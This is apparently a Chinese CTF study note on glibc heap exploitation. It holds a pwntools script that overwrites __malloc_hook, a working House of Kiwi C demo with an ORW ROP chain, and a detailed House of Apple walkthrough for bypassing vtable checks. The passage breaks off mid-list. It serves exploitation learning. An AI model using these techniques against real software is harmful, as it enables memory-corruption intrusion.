heap_leak2 = u64(p.recvn(8))

log.success("libc leak   = " + hex(libc_leak))
log.success("heap leak1  = " + hex(heap_leak1))


# 按你当前日志，这个更合理
libc_base = libc_leak - 0x3c5188
heap_base = heap_leak1-0x30
log.success("libc base   = " + hex(libc_base))

log.success("heap base   = " + hex(heap_base))

__malloc_hook = libc_base + libc.sym["__malloc_hook"]


add(0x60,b'aaa')
delete()
edit(0x50,p64(__malloc_hook-0x23))
add(0x60,b'aaa')
og = libc_base + 0xf03a4
add(0x60,b'a'*0x13+p64(og))

p.sendlineafter(b"input your choice:", b"1")
p.sendlineafter(b"diary content:", str(0x64).encode())

p.interactive()

```
## house of kiwi

### 适用场景

能够触发__malloc_assert,通常是堆溢出导致
能够任意写,修改_IO_file_sync和IO_helper_jumps + 0xA0 and 0xA8
libc版本2.23-2.36

#### __malloc_assert

GLIBC 2.32/malloc.c:288
glibc中ptmalloc部分,从以前到现在都存在一个assret断言的问题,此处存在一个fflush(stderr)的函数调用,其中会调用_IO_file_jumps中的sync指针

```c
static void
__malloc_assert (
    const char *assertion,   // 断言失败的表达式字符串
    const char *file,        // 触发断言的源码文件名，比如 malloc.c
    unsigned int line,       // 触发断言的源码行号
    const char *function     // 触发断言的函数名，比如 sysmalloc
)
{
    // 向 stderr 打印类似：
    // 程序名: malloc.c:2394: sysmalloc: Assertion `xxx' failed.
    (void) __fxprintf (
        NULL,
        "%s%s%s:%u: %s%sAssertion `%s' failed.\n",
        __progname,
        __progname[0] ? ": " : "",
        file,
        line,
        function ? function : "",
        function ? ": " : "",
        assertion
    );

    // 刷新 stderr，确保错误信息真的输出出去
    fflush(stderr);

    // 终止程序
    abort();
}
```

如何触发assert，在_int_malloc中存在一个 assert (chunk_main_arena (bck->bk));位置可以触发,此外当top_chunk的大小不够分配时,则会进入sysmalloc中

GLIBC 2.32/malloc.c:2394
```c
......
assert (
    // 情况一：这是 arena 初始化时的 top chunk
    (old_top == initial_top(av) && old_size == 0)
    ||
    // 情况二：正常已有 top chunk，那么必须满足下面三个条件
    (
        // top chunk 的 size 不能太小，x86-64 下 MINSIZE 通常是 0x20
        (unsigned long)(old_size) >= MINSIZE
        &&
        // top chunk 的 prev_inuse 位必须为 1
        // 如果你把 top chunk size 的 P 位清掉，这里就会失败
        prev_inuse(old_top)
        &&
        // top chunk 末尾地址 old_end 必须页对齐
        // 也就是 old_end & (pagesize - 1) == 0
        ((unsigned long) old_end & (pagesize - 1)) == 0
    )
);
......

```

此处会对top_chunk的size|flags进行assert判断

old_size >= 0x20;
old_top.prev_inuse = 0;
old_top页对齐
通过这里也可以触发assert
下面手动实现进入assert后,可以想到fflush和fxprintf都和IO有关,可能需要涉及IO,一步步调试看看可以发现在fflush函数中调用到了一个指针:位于_IO_file_jumps中的_IO_file_sync指针,且观察发现RDX寄存器的值为IO_helper_jumps指针,多次调试发现RDX始终是一个固定的地址



由于
```text
fflush(stderr)
    -> _IO_file_sync(stderr)
```

如果存在一个任意写,通过修改 _IO_file_jumps + 0x60的_IO_file_sync指针为setcontext+61
那么执行到 setcontext+61 时，rdx 正好是：rdx = _IO_helper_jumps

而 setcontext+61 这段代码会从 rdx + 偏移 的地方恢复寄存器，尤其是：
```
[rdx + 0xa0]  -> 新的 rsp
[rdx + 0xa8]  -> 后续返回地址 / gadget
```

修改IO_helper_jumps + 0xA0 and 0xA8分别为可迁移的存放有ROP的位置和ret指令的gadget位置,则可以进行栈迁移

所以总体流程为
```text
触发 malloc assert
    -> __malloc_assert
        -> __fxprintf 打印错误
        -> fflush(stderr)
            -> 调用 _IO_file_jumps 里的 sync
                -> sync 已被改成 setcontext+61
                    -> setcontext+61 根据 rdx = _IO_helper_jumps 恢复 rsp
                        -> 栈迁移到 ROP chain
                            -> 执行 ROP
```

值得注意的是，setcontext这个函数在glibc 2.27 及以前用 rdi，glibc 2.28 及以后用 rdx，不过glibc2.27之前可以用各类hook来做，可以不用IO，所以用house of kiwi的时候都可以用rdx这个版本的。

#### Demo
```c
// 目标环境：Ubuntu / glibc 2.32-0ubuntu3.2 左右
// 编译参数示例：
// gcc demo.c -o main -z noexecstack -fstack-protector-all -pie -z now -masm=intel

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>

// 下面这些 gadget 偏移都依赖“精确 libc 版本”
// libc 换了，偏移大概率就要重新算
#define pop_rdi_ret  libc_base + 0x000000000002858F
#define pop_rdx_r12  libc_base + 0x0000000000114161
#define pop_rsi_ret  libc_base + 0x000000000002AC3F
#define pop_rax_ret  libc_base + 0x0000000000045580
#define syscall_ret  libc_base + 0x00000000000611EA

// ret gadget，用来对齐栈或作为 setcontext 恢复后先返回的位置
#define ret pop_rdi_ret + 1

size_t libc_base;

// 存放最终 ORW ROP 链
size_t ROP[0x30];

// flag 路径，同时后面 FLAG + 0x10 被当作 read 缓冲区使用
char FLAG[0x100] = "./flag.txt\x00";

void sandbox()
{
    // 禁止后续提权，seccomp 常见前置设置
    prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);

    // seccomp-bpf 过滤规则
    // 这里核心效果是禁用 execve syscall，也就是 syscall 59
    // 所以不能 system("/bin/sh")，需要 ORW：open/read/write
    struct sock_filter sfi[] = {
        {0x20,0x00,0x00,0x00000004}, // 读取 arch
        {0x15,0x00,0x05,0xC000003E}, // 判断是否 x86_64
        {0x20,0x00,0x00,0x00000000}, // 读取 syscall number
        {0x35,0x00,0x01,0x40000000},
        {0x15,0x00,0x02,0xFFFFFFFF},
        {0x15,0x01,0x00,0x0000003B}, // 如果 syscall == 59(execve)，拦截
        {0x06,0x00,0x00,0x7FFF0000}, // 允许
        {0x06,0x00,0x00,0x00000000}  // 拒绝
    };

    struct sock_fprog sfp = {8, sfi};

    // 开启 seccomp 过滤
    prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sfp);
}

void setROP()
{
    uint32_t i = 0;

    // open("./flag.txt", 0)
    ROP[i++] = pop_rax_ret;
    ROP[i++] = 2;                  // syscall number: open
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = (size_t)FLAG;        // rdi = "./flag.txt"
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = 0;                  // rsi = O_RDONLY
    ROP[i++] = syscall_ret;         // syscall open

    // read(3, FLAG + 0x10, 0x100)
    // 这里直接假设 open 返回的 fd 是 3
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 3;                  // rdi = fd
    ROP[i++] = pop_rdx_r12;
    ROP[i++] = 0x100;              // rdx = size
    ROP[i++] = 0;                  // r12 = padding
    ROP[i++] = pop_rsi_ret;
    ROP[i++] = (size_t)(FLAG + 0x10); // rsi = buf
    ROP[i++] = (size_t)read;       // 调用 libc read

    // write(1, FLAG + 0x10, 0x100)
    // 此时 rsi 仍然是 FLAG + 0x10，rdx 仍然是 0x100
    ROP[i++] = pop_rdi_ret;
    ROP[i++] = 1;                  // rdi = stdout
    ROP[i++] = (size_t)write;      // 调用 libc write
}

int main()
{
    // 关闭 stdin/stdout/stderr 缓冲，方便调试
    setvbuf(stdin,  0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stderr, 0LL, 2, 0LL);

    // 开启沙箱，禁用 execve
    sandbox();

    // 通过 setvbuf 的真实地址反推 libc base
    // 0x81630 是当前目标 libc 中 setvbuf 的偏移
    libc_base = ((size_t)setvbuf) - 0x81630;
    printf("LIBC:\t%#lx\n", libc_base);

    // setcontext + 61
    // glibc 2.32 中常见为 rdx 版本：
    // setcontext 的后半段会从 [rdx + 0xa0] 恢复 rsp，
    // 从 [rdx + 0xa8] 取返回地址。
    size_t magic_gadget = libc_base + 0x53030 + 61;

    // _IO_helper_jumps 地址
    // House of Kiwi 里，fflush(stderr) 调用 _IO_file_sync 时，
    // 调试现场通常可以看到 rdx = _IO_helper_jumps。
    size_t IO_helper = libc_base + 0x1E48C0; // _IO_helper_jumps

    // _IO_file_jumps 中 sync 函数指针的位置
    // 正常情况下 fflush(stderr) 会调用 _IO_file_sync。
    // 这里把 sync 指针改成 setcontext + 61。
    size_t SYNC = libc_base + 0x1E5520; // _IO_file_jumps + sync offset

    // 构造 ORW ROP 链
    setROP();

    // 伪造 setcontext 要恢复的上下文：
    // [rdx + 0xa0] -> 新 rsp，也就是 ROP 链地址
    *((size_t *)IO_helper + 0xA0 / 8) = (size_t)ROP;

    // [rdx + 0xa8] -> setcontext 最后 push 的 rcx
    // 设置rcx 即 程序setcontext运行完后会首先调用的指令地址
    *((size_t *)IO_helper + 0xA8 / 8) = ret;

    // 劫持 _IO_file_jumps 里的 sync 函数指针
    // fflush(stderr) 原本调用 _IO_file_sync
    // 现在会调用 setcontext + 61
    *((size_t *)SYNC) = magic_gadget;

    // 触发 malloc assert：
    // malloc(0x10) 返回用户区指针。
    // +0x18 正好指到后面 top chunk 的 size 字段。
    size_t *top_size = (size_t *)((char *)malloc(0x10) + 0x18);

    // 把 top chunk size 改小，并且清掉 prev_inuse 位
    // 之后再 malloc 一个较大的 chunk，会进入 sysmalloc，
    // sysmalloc 检查 top chunk 合法性失败，触发 __malloc_assert。
    *top_size = (*top_size) & 0xFFE;

    // 触发 sysmalloc -> __malloc_assert -> fflush(stderr)
    // fflush(stderr) -> 被劫持的 _IO_file_sync -> setcontext + 61
    // setcontext 根据 _IO_helper_jumps + 0xa0 / 0xa8 完成栈迁移
    malloc(0x1000);

    _exit(-1);
}
```

#### 例题 NepCTF 2021年中NULL_FxCK

链接为https://bbs.kanxue.com/thread-273746-1.htm，保护全开，有沙箱，看一下代码


## house of emma


## house of apple

### 利用条件

使用house of apple的条件为：
1、程序从main函数返回或能调用exit函数
2、能泄露出heap地址和libc地址
3、 能使用一次largebin attack（一次即可）

### 原理

当程序从main函数返回或者执行exit函数的时候，均会调用fcloseall函数，该调用链为：

exit -> fcloseall -> _IO_cleanup -> _IO_flush_all_lockp -> _IO_OVERFLOW

最后会遍历_IO_list_all存放的每一个IO_FILE结构体，如果满足条件的话，会调用每个结构体中vtable->_overflow函数指针指向的函数。

使用largebin attack可以劫持_IO_list_all变量，将其替换为伪造的IO_FILE结构体，而在此时，我们其实仍可以继续利用某些IO流函数去修改其他地方的值。要想修改其他地方的值，就离不开_IO_FILE的一个成员_wide_data的利用。

```c
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data; // 劫持这个变量
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

amd64程序下，struct _IO_wide_data *_wide_data在_IO_FILE中的偏移为0xa0：

```c
0x0:'_flags',
0x8:'_IO_read_ptr',
0x10:'_IO_read_end',
0x18:'_IO_read_base',
0x20:'_IO_write_base',
0x28:'_IO_write_ptr',
0x30:'_IO_write_end',
0x38:'_IO_buf_base',
0x40:'_IO_buf_end',
0x48:'_IO_save_base',
0x50:'_IO_backup_base',
0x58:'_IO_save_end',
0x60:'_markers',
0x68:'_chain',
0x70:'_fileno',
0x74:'_flags2',
0x78:'_old_offset',
0x80:'_cur_column',
0x82:'_vtable_offset',
0x83:'_shortbuf',
0x88:'_lock',
0x90:'_offset',
0x98:'_codecvt',
0xa0:'_wide_data',
0xa8:'_freeres_list',
0xb0:'_freeres_buf',
0xb8:'__pad5',
0xc0:'_mode',
0xc4:'_unused2',
0xd8:'vtable'
```

我们在伪造_IO_FILE结构体的时候，伪造_wide_data变量，然后通过某些函数，比如_IO_wstrn_overflow就可以将已知地址空间上的某些值修改为一个已知值。

```c
static wint_t
_IO_wstrn_overflow (FILE *fp, wint_t c)
{
  /*
     执行到这里，说明用户提供的宽字符缓冲区已经写满。

     但这类函数仍然需要继续统计“理论上应该写入的字符总数”，
     所以不能直接停止，而是切换到 _IO_wstrnfile 结构体内部的
     overflow_buf 继续作为溢出缓冲区使用。
  */
  _IO_wstrnfile *snf = (_IO_wstrnfile *) fp;

  /*
     如果当前宽字符缓冲区还不是 snf->overflow_buf，
     就把宽字符缓冲区切换到 overflow_buf。
  */
  if (fp->_wide_data->_IO_buf_base != snf->overflow_buf)
    {
      /*
         设置宽字符缓冲区范围：
         起点为 overflow_buf，
         终点为 overflow_buf + 元素个数。
      */
      _IO_wsetb (fp, snf->overflow_buf,
         snf->overflow_buf + (sizeof (snf->overflow_buf)
                      / sizeof (wchar_t)), 0);

      /* 初始化宽字符写缓冲区起点。 */
      fp->_wide_data->_IO_write_base = snf->overflow_buf;

      /* 初始化宽字符读缓冲区相关指针。 */
      fp->_wide_data->_IO_read_base = snf->overflow_buf;
      fp->_wide_data->_IO_read_ptr = snf->overflow_buf;
      fp->_wide_data->_IO_read_end = (snf->overflow_buf
                      + (sizeof (snf->overflow_buf)
                     / sizeof (wchar_t)));
    }

  /*
     将写指针和写结束位置都设置为 overflow_buf。
     这样后续不会真正继续保存超出的字符。
  */
  fp->_wide_data->_IO_write_ptr = snf->overflow_buf;
  fp->_wide_data->_IO_write_end = snf->overflow_buf;

  /*
     对于放不进原始缓冲区的字符，这里并不真正保存，
     而是直接忽略它。
  */
  return c;
}
```

分析一下这个函数，首先将fp强转为_IO_wstrnfile *指针，然后判断fp->_wide_data->_IO_buf_base != snf->overflow_buf是否成立（一般肯定是成立的），如果成立则会对fp->_wide_data的_IO_write_base、_IO_read_base、_IO_read_ptr和_IO_read_end赋值为snf->overflow_buf或者与该地址一定范围内偏移的值；最后对fp->_wide_data的_IO_write_ptr和_IO_write_end赋值。

也就是说，只要控制了fp->_wide_data，就可以控制从fp->_wide_data开始一定范围内的内存的值，也就等同于任意地址写已知地址。

这里有时候需要绕过_IO_wsetb函数里面的free：

```c
void
_IO_wsetb (FILE *f, wchar_t *b, wchar_t *eb, int a)
{
  if (f->_wide_data->_IO_buf_base && !(f->_flags2 & _IO_FLAGS2_USER_WBUF))
    free (f->_wide_data->_IO_buf_base); // 其不为0的时候不要执行到这里
  f->_wide_data->_IO_buf_base = b;
  f->_wide_data->_IO_buf_end = eb;
  if (a)
    f->_flags2 &= ~_IO_FLAGS2_USER_WBUF;
  else
    f->_flags2 |= _IO_FLAGS2_USER_WBUF;
}
```

_IO_wstrnfile涉及到的结构体如下：

```c
struct _IO_str_fields
{
  // 旧版字符串流中用于分配 buffer 的函数指针，现在主要保留 ABI 兼容
  _IO_alloc_type _allocate_buffer_unused;

  // 旧版字符串流中用于释放 buffer 的函数指针，现在主要保留 ABI 兼容
  _IO_free_type _free_buffer_unused;
};

struct _IO_streambuf
{
  // FILE 结构体主体
  FILE _f;

  // FILE 对应的 vtable，也就是 IO 操作函数表
  const struct _IO_jump_t *vtable;
};

typedef struct _IO_strfile_
{
  // 基础 streambuf：FILE + vtable
  struct _IO_streambuf _sbf;

  // 字符串流额外字段
  struct _IO_str_fields _s;
} _IO_strfile;

typedef struct
{
  // 字符串流基础结构
  _IO_strfile f;

  /*
     用于保存用户提供的普通字符缓冲区放不下的字符。
     也就是窄字符版本的溢出缓冲区。
  */
  char overflow_buf[64];
} _IO_strnfile;

typedef struct
{
  // 字符串流基础结构
  _IO_strfile f;

  /*
     用于保存用户提供的宽字符缓冲区放不下的字符。
     也就是宽字符版本的溢出缓冲区。
  */
  wchar_t overflow_buf[64];
} _IO_wstrnfile;
```

_IO_streambuf 由 FILE _f 和 vtable 组成，_IO_wstrnfile 则是在 _IO_strfile 后面追加了 wchar_t overflow_buf[64]。这个结构在 glibc 源码里也是这么组织的：_IO_streambuf 包含 FILE 和 vtable，_IO_strfile 包含 _IO_streambuf 和 _IO_str_fields，_IO_wstrnfile 最后带一个 wchar_t overflow_buf[64]

其中，overflow_buf相对于_IO_FILE结构体的偏移为0xf0，在vtable后面。

而struct _IO_wide_data结构体如下：

```c
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;    // 当前宽字符读指针
  wchar_t *_IO_read_end;    // 宽字符 get 区域结束位置
  wchar_t *_IO_read_base;   // 宽字符 putback + get 区域起始位置

  wchar_t *_IO_write_base;  // 宽字符 put 区域起始位置
  wchar_t *_IO_write_ptr;   // 当前宽字符写指针
  wchar_t *_IO_write_end;   // 宽字符 put 区域结束位置

  wchar_t *_IO_buf_base;    // 宽字符缓冲区起始位置
  wchar_t *_IO_buf_end;     // 宽字符缓冲区结束位置

  // 以下字段用于 backup / undo 等机制
  wchar_t *_IO_save_base;   // 非当前 get 区域起始位置
  wchar_t *_IO_backup_base; // backup 区域第一个有效字符指针
  wchar_t *_IO_save_end;    // 非当前 get 区域结束位置

  __mbstate_t _IO_state;       // 多字节/宽字符转换状态
  __mbstate_t _IO_last_state;  // 上一次转换状态

  struct _IO_codecvt _codecvt; // 字符编码转换相关结构

  wchar_t _shortbuf[1];        // 小型宽字符缓冲区

  const struct _IO_jump_t *_wide_vtable; // 宽字符 IO 的 vtable
};
```

简单来说

我们伪造一个 fake FILE，地址是 A。
让 fake FILE 的 vtable 指向合法的 _IO_wstrn_jumps。
让 fake FILE 的 _wide_data 指向目标地址 B。
程序 exit 时遍历 _IO_list_all，触发 fake FILE 的 overflow。
因为 vtable 是 _IO_wstrn_jumps，所以 overflow 实际进入 _IO_wstrn_overflow。
_IO_wstrn_overflow 会把 B 附近的若干 wide_data 字段写成 A+0xf0 或 A+0x1f0。

换而言之，假如此时在堆上伪造一个_IO_FILE结构体并已知其地址为A，将A + 0xd8替换为_IO_wstrn_jumps地址，A + 0xa0设置为B，并设置其他成员以便能调用到_IO_OVERFLOW。exit函数则会一路调用到_IO_wstrn_overflow函数，并将B至B + 0x38的地址区域的内容都替换为A + 0xf0或者A + 0x1f0。

| 地址         | `_IO_wide_data` 字段 | 被写成        |
| ------------ | ---------------------- | ------------- |
| `B + 0x00` | `_IO_read_ptr`       | `A + 0xf0`  |
| `B + 0x08` | `_IO_read_end`       | `A + 0x1f0` |
| `B + 0x10` | `_IO_read_base`      | `A + 0xf0`  |
| `B + 0x18` | `_IO_write_base`     | `A + 0xf0`  |
| `B + 0x20` | `_IO_write_ptr`      | `A + 0xf0`  |
| `B + 0x28` | `_IO_write_end`      | `A + 0xf0`  |
| `B + 0x30` | `_IO_buf_base`       | `A + 0xf0`  |
| `B + 0x38` | `_IO_buf_end`        | `A + 0x1f0` |

```text
1. 攻击者在堆上伪造 fake FILE，起始地址为 A。

2. 攻击者设置：
   A+0xd8 = _IO_wstrn_jumps
   A+0xa0 = B

3. 攻击者还设置 fake FILE 的其他字段，
   让它在 exit 刷新时满足调用 _IO_OVERFLOW 的条件。
   例如让 _mode <= 0，_IO_write_ptr > _IO_write_base。

4. 通过 largebin attack 等方式，
   把 _IO_list_all 改成 A，
   或者让 _IO_list_all 链表能遍历到 A。

5. 程序调用 exit。

6. libc 进入退出清理流程，
   开始 flush 所有 FILE 流。

7. _IO_flush_all_lockp 遍历 _IO_list_all。

8. 它取到 fake FILE：
   fp = A。

9. 它发现 fp 满足“需要 flush”的条件，
   于是调用：
   _IO_OVERFLOW(fp, EOF)。

10. _IO_OVERFLOW 根据 fp->vtable 调用 __overflow：
    fp->vtable = _IO_wstrn_jumps。

11. _IO_wstrn_jumps->__overflow 指向 _IO_wstrn_overflow，
    因此实际调用：
    _IO_wstrn_overflow(A, EOF)。

12. _IO_wstrn_overflow 内部执行：
    snf = (_IO_wstrnfile *)fp。
    因为 fp = A，
    所以 snf->overflow_buf = A + 0xf0。

13. 它读取：
    fp->_wide_data = *(A+0xa0) = B。

14. 它把 B 当成 struct _IO_wide_data 来写。

15. 如果 B+0x30 当前不等于 A+0xf0，
    它调用 _IO_wsetb，
    写入：
    B+0x30 = A+0xf0
    B+0x38 = A+0x1f0。

16. 然后继续写：
    B+0x18 = A+0xf0
    B+0x10 = A+0xf0
    B+0x00 = A+0xf0
    B+0x08 = A+0x1f0。

17. 最后无条件写：
    B+0x20 = A+0xf0
    B+0x28 = A+0xf0。

18. 函数返回。
```

### 利用思路

从上面的分析可以，在只给了1次largebin attack的前提下，能利用_IO_wstrn_overflow函数将任意地址空间上的值修改为一个已知地址，并且这个已知地址通常为堆地址。那么，当我们伪造两个甚至多个_IO_FILE结构体，并将这些结构体通过chain字段串联起来就能进行组合利用。基于此，我总结了house of apple下至少四种利用思路

下面这段可以直接替换你原来的“思路一：修改 tcache 线程变量”部分。我把概念、链路、实战查找方式都揉进去了。内容基于你前面给的 IO_FILE 材料、你贴出的 `_IO_wstrn_overflow` / `_IO_str_overflow` 代码，以及 glibc 源码逻辑整理。

---

#### 思路一：修改 tcache 线程变量，配合 `_IO_str_overflow` 获得任意地址写（house of pig）

这个思路的核心是：**一次 largebin attack 只能把 `_IO_list_all` 劫持到第一个伪造的 `_IO_FILE`，但我们可以通过 `_chain` 字段串联多个 fake `_IO_FILE`，让 `exit` 刷新 IO 链表时依次触发多个 `_IO_OVERFLOW`。**

其中第一个 fake `_IO_FILE` 用 `_IO_wstrn_overflow` 修改 tcache 线程变量，第二个 fake `_IO_FILE` 用 `_IO_str_overflow` 触发 `malloc + memcpy`，从而把原本“写入一个已知堆地址”的弱写能力，升级成“向指定地址复制指定内容”的强写能力。

##### 1. 相关概念

`tcache` 是 glibc malloc 的线程局部缓存。严格来说，`tcache` 不是普通全局变量，而是一个 `__thread` 线程局部指针，它指向当前线程的 `tcache_perthread_struct`。glibc 源码中 `tcache_perthread_struct` 里有 `counts[]` 和 `entries[]`，分别记录每个 tcache bin 的数量和链表头；同时源码中定义了 `static __thread tcache_perthread_struct *tcache = NULL`。([codebrowser.dev][1])

可以简化理解为：

```c
typedef struct tcache_perthread_struct
{
    uint16_t counts[TCACHE_MAX_BINS];
    tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

static __thread tcache_perthread_struct *tcache;
```

当程序调用 `malloc(size)` 时，glibc 会优先检查对应大小的 tcache bin。如果：

```text
tcache != NULL
tcache->counts[idx] > 0
```

那么 `malloc` 会直接从：

```text
tcache->entries[idx]
```

取出一个 chunk 返回。glibc 源码里的 `__libc_malloc` 也确实会在进入普通 `_int_malloc` 路径前优先检查 tcache，并在 `counts[tc_idx] > 0` 时调用 `tcache_get` 返回 chunk。([codebrowser.dev][1])

所以，如果我们能把 TLS 中的 `tcache` 指针改成一个可控堆地址，并在该堆地址处伪造 `tcache_perthread_struct`，就能影响后续 `malloc` 的返回值。

---

##### 2. `pointer_guard` 和 `IO_accept_foreign_vtables`

高版本 glibc 会对 `_IO_FILE` 的 vtable 做合法性检查。正常情况下，`FILE->vtable` 必须落在 libc 的 `__libc_IO_vtables` 段内；如果不在这个合法范围内，`IO_validate_vtable` 会进入 `_IO_vtable_check`，失败时程序会 fatal 退出。glibc 的 `libioP.h` 中明确写了 fast path 会检查 vtable 是否位于 `__libc_IO_vtables` 段内。

`IO_accept_foreign_vtables` 是一个隐藏变量，可以理解为“是否接受外部 vtable”的开关。`_IO_vtable_check` 会读取它，经过 `PTR_DEMANGLE` 解码后，如果等于 `_IO_vtable_check` 自身，就直接返回，不再拒绝 foreign vtable。glibc 源码中 `_IO_vtable_check` 的逻辑就是读取 `IO_accept_foreign_vtables`、执行 `PTR_DEMANGLE(flag)`，然后判断 `flag == &_IO_vtable_check`。

但是 `IO_accept_foreign_vtables` 不是直接保存明文函数指针。glibc 的 `IO_set_accept_foreign_vtables` 会先对传入的函数指针执行 `PTR_MANGLE`，再写入 `IO_accept_foreign_vtables`。

`PTR_MANGLE` 使用的随机值就是 `pointer_guard`。在 x86-64 glibc 中，`PTR_MANGLE` 的核心操作是：

```text
ptr ^= fs:POINTER_GUARD
ptr = rol(ptr, 2 * LP_SIZE + 1)
```

64 位下通常就是左移 17 位；`PTR_DEMANGLE` 则反过来右移 17 位，再异或 `fs:POINTER_GUARD`。glibc 的 x86-64 `pointer_guard.h` 中可以看到 `PTR_MANGLE` 使用 `xor %fs:POINTER_GUARD` 和 `rol $2*LP_SIZE+1`，`PTR_DEMANGLE` 使用反向的 `ror` 和 `xor`。

因此，如果要通过写内存绕过 vtable 检查，常见做法是：

```text
1. 把 pointer_guard 改成已知值，例如 0；
2. 把 IO_accept_foreign_vtables 改成 PTR_MANGLE(&_IO_vtable_check) 后的值；
3. 之后 fake FILE 的 vtable 就可以指向堆上的 fake vtable。
```

如果 `pointer_guard = 0`，那么 64 位下通常有：

```python
IO_accept_foreign_vtables = rol(_IO_vtable_check, 17)
```

如果不修改 `pointer_guard`，则应该写：

```python
IO_accept_foreign_vtables = rol(_IO_vtable_check ^ pointer_guard, 17)
```

---

##### 3. 利用 `_IO_wstrn_overflow` 修改 tcache 指针

在 House of Apple 中，我们先伪造第一个 fake `_IO_FILE`，记其地址为 `A1`。设置：

```text
A1 + 0xd8 = _IO_wstrn_jumps
A1 + 0xa0 = B
```

也就是：

```c
fake_io_1->vtable = &_IO_wstrn_jumps;
fake_io_1->_wide_data = B;
```

当 `exit` 触发 `_IO_flush_all_lockp` 遍历 `_IO_list_all` 时，如果 fake FILE 满足刷新条件，就会调用：

```c
_IO_OVERFLOW(fake_io_1, EOF);
```

而 `_IO_OVERFLOW` 本质是：

```c
fake_io_1->vtable->__overflow(fake_io_1, EOF);
```

由于 vtable 被设置为 `_IO_wstrn_jumps`，所以实际会进入：

```c
_IO_wstrn_overflow(fake_io_1, EOF);
```

`_IO_wstrn_overflow` 会把 `fake_io_1` 当成 `_IO_wstrnfile`，其中 `overflow_buf` 通常位于：

```text
A1 + 0xf0
```

而宽字符 `overflow_buf[64]` 的结束位置是：

```text
A1 + 0x1f0
```

因为 Linux/glibc 下 `wchar_t` 通常是 4 字节，`64 * 4 = 0x100`。

该函数会把：

```text
fake_io_1->_wide_data
```

当成 `_IO_wide_data` 结构体来写。若 `fake_io_1->_wide_data = B`，那么它会对 `B` 附近的字段进行写入：

```text
B + 0x00 = A1 + 0xf0
B + 0x08 = A1 + 0x1f0
B + 0x10 = A1 + 0xf0
B + 0x18 = A1 + 0xf0
B + 0x20 = A1 + 0xf0
B + 0x28 = A1 + 0xf0
B + 0x30 = A1 + 0xf0
B + 0x38 = A1 + 0x1f0
```

所以它提供了一种能力：

```text
把任意地址附近的若干指针槽位，改成已知堆地址 A1+0xf0 或 A1+0x1f0。
```

如果想修改 TLS 中的 `tcache` 指针，就选择一个会被写成 `A1 + 0xf0` 的偏移。例如利用：

```text
B + 0x20 = A1 + 0xf0
```

那么令：

```text
B = &tcache - 0x20
```

执行后就能得到：

```text
tcache = A1 + 0xf0
```

随后在 `A1 + 0xf0` 处提前伪造一个 `tcache_perthread_struct`，布置好对应大小的：

```text
counts[idx]
entries[idx]
```

这样后续 `malloc(size)` 就会优先从我们伪造的 tcache 中取 chunk。

---

##### 4. 利用 `_IO_str_overflow` 的 `malloc + memcpy`

第二个 fake `_IO_FILE` 用来触发 `_IO_str_overflow`。它的关键代码如下：

```c
char *new_buf;
char *old_buf = fp->_IO_buf_base;
size_t old_blen = _IO_blen(fp);
size_t new_size = 2 * old_blen + 100;

new_buf = malloc(new_size);

if (old_buf)
{
    memcpy(new_buf, old_buf, old_blen);
    free(old_buf);
}
```

这段逻辑的利用点是：

```text
new_buf = malloc(new_size)
memcpy(new_buf, old_buf, old_blen)
```

如果第一阶段已经把 `tcache` 指针改成了伪造的 `tcache_perthread_struct`，那么第二阶段调用 `malloc(new_size)` 时，就可以让 `malloc` 返回我们指定的地址 `target`。

随后：

```c
memcpy(new_buf, old_buf, old_blen);
```

就会变成：

```c
memcpy(target, old_buf, old_blen);
```

如果 `old_buf` 指向我们准备好的数据，`old_blen` 是我们控制的长度，那么这就形成了一次较强的写原语：

```text
向 target 地址写入 old_buf 指向的内容，长度为 old_blen。
```

需要注意的是，`_IO_str_overflow` 后面还有：

```c
free(old_buf);
```

所以实战中 `old_buf` 通常要指向一个可以安全 `free` 的堆块，或者结合题目环境规避这个副作用。

---

##### 5. 利用强写修改 `pointer_guard` 和 `IO_accept_foreign_vtables`

获得 `memcpy(target, old_buf, old_blen)` 之后，可以用它做两类事情。

第一种是修改 vtable 检查相关变量：

```text
1. 修改 TLS 中的 pointer_guard 为已知值，例如 0；
2. 修改 libc 中的 IO_accept_foreign_vtables 为 PTR_MANGLE(&_IO_vtable_check) 后的值；
3. 之后 glibc 的 _IO_vtable_check 会接受 foreign vtable。
```

如果把 `pointer_guard` 改成 0，则 64 位下常见计算是：

```python
def rol(x, r, bits=64):
    return ((x << r) | (x >> (bits - r))) & ((1 << bits) - 1)

io_accept_value = rol(_IO_vtable_check, 17)
```

如果不修改 `pointer_guard`，则是：

```python
io_accept_value = rol(_IO_vtable_check ^ pointer_guard, 17)
```

这样 `_IO_vtable_check` 中执行 `PTR_DEMANGLE(flag)` 后，`flag` 会还原成 `_IO_vtable_check`，于是检查通过。源码中 `_IO_vtable_check` 确实会在 `PTR_DEMANGLE(flag)` 后判断是否等于 `&_IO_vtable_check`。([codebrowser.dev][3])

第二种是直接改写其他可控函数指针或结构体字段。例如某些环境里可以修改可写 GOT、可写 jump table、hook、回调指针、其他 fake FILE 的字段等。但这个方向高度依赖具体 libc 版本、RELRO、映射权限和题目结构。如果 Full RELRO 开启，GOT 通常不可写；如果目标 `_IO_xxx_jumps` 所在段不可写，也不能直接改函数表。

---

##### 6. 完整利用流程总结

可以把整个思路整理为下面这条链：

```text
1. 使用 largebin attack 劫持 _IO_list_all，
   让 _IO_list_all 指向 fake_IO_1。

2. 在堆上伪造多个 fake _IO_FILE，
   并用 _chain 字段串联：
   fake_IO_1 -> fake_IO_2 -> fake_IO_3 -> ...

